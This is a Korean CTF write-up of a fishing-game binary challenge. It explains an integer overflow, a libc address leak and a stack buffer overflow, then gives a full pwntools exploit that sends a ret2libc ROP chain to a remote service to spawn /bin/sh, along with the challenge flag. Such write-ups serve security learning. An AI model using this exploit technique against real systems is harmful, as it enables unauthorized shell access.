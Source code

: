 ```C
# in main()
if ( fishing_attempts == 20 && !large_fish )
      mermaid();
```
mermaid 함수에서 돈을 많이 주므로 이를 실행시켜보자.

fishing_attempts는 go_fishing을 할 때마다 1씩 증가하므로 20번 실행하면 된다.
large_fish는 shop에서 팔면 0이 되므로 다 팔아주자. 이 때 받은 돈을 기억하자. 이를 `gave_money`라 하자.

```C
__int64 mermaid()
{
  __int64 result; // rax
  int v1; // [rsp+8h] [rbp-8h] BYREF
  __int16 v2; // [rsp+Eh] [rbp-2h]

  result = (unsigned int)wish;
  if ( !wish )
  {
    puts("You found a mermaid!");
    puts("Enter Your wish: ");
    __isoc99_scanf("%u", &v1);
    v2 = v1 + money;
    if ( (__int16)(v1 + money) > 0 )
    {
      puts("The mermaid rejected your wish....");
      exit(0);
    }
    puts("The mermaid make a wish come true....!!!");
    money += 10000;
    printf("Your money is now: %u\n", (unsigned __int16)money);
    return (unsigned int)++wish;
  }
  return result;
}
```
if 조건문을 통과해야 한다. money가 \_\_int16 인 것을 알고 있으므로 65536 - `gave_money`를 입력하면 if에 걸리지 않고 money를 늘릴 수 있다.

```C
# in shop()
else
    {
      printf("buy the luxury bait!! %p\n", &printf);
      return ++bait;
    }
```
돈이 충분하면 printf 주소를 출력해주므로 libc_base를 얻을 수 있다.

```C
int exit_game()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Let's quit the game..");
  read(0, buf, 0x78uLL);
  return puts("\nGood Bye!!!");
}
```
exit_game에서 bof가 발생한다. 쉘 따는 ROP를 수행해주면 된다.

# Exploit code

```python
from pwn import *

p = remote('44.210.9.208', 10017)
# p = process('./challenge')
l = ELF('./libc.so.6')

for _ in range(20):
    p.sendlineafter(b'choose: ', b'1')

p.sendlineafter(b'choose: ', b'3')
p.sendlineafter(b'choose: ', b'2')
p.sendlineafter(b'choose: ', b'1')
p.recvline()
money = int(p.recvline().split()[-2])
left = 65536 - money
print(f"money = {money}")
print(f"left = {left}")

p.sendlineafter(b'Enter Your wish: ', str(left).encode())

p.sendlineafter(b'choose: ', b'3')
p.sendlineafter(b'choose: ', b'1')
p.recvline()
l.address = int(p.recvline().split()[-1].decode(), 16) - l.sym['printf']
print(hex(l.address))

ret = 0x000000000040101a
system = l.sym['system']
binsh = list(l.search(b'/bin/sh'))[0]
pop_rdi = l.address + 0x0000000000023b6a

p.sendlineafter(b'choose: ', b'4')
payload = b'a' * 0x40 + b'b' * 8 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.sendafter(b'quit the game..', payload)

p.interactive()
```
`scpCTF{You_4r3_K1n&_0F_FiSh1nG!}`
